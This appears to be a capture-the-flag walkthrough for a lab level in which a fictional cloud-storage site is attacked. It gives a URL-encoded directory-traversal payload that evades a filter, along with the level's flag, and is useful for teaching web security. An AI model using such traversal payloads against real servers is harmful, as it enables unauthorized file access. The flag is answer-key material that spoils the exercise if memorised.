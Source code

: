 # 📦 Multiple Boxes - L12 C12

Could this be the icing on the cake? Remember Filebox, the cloud storage site Bulldog gang member Billy Johnson was using to store his files? Well, it seems he's not the only gang member to store his secret files there.

As we know it's vulnerable we want to look at other ways to find the gang's files. We think the files can be exposed with directory traversal and there are some two levels up from the account page. See if you can get access to them.

**Tip:** Find the file to get the flag.

```txt
💡 Hint: Looks like this web server is setup to filter out common directory traversal attempts.
   Could you use some character encoding to bypass the filter? CAPEC 79
```

## Step by Step

- Replace the url with the following
  - https://www.easy-filebox.com/u/2374682/user/files..%2F..%2F..%2F..%2F..%2F..%2F..%2F
  - The flag should appear

`flag: Lpa8LauYxLKeUuiUUT6X`
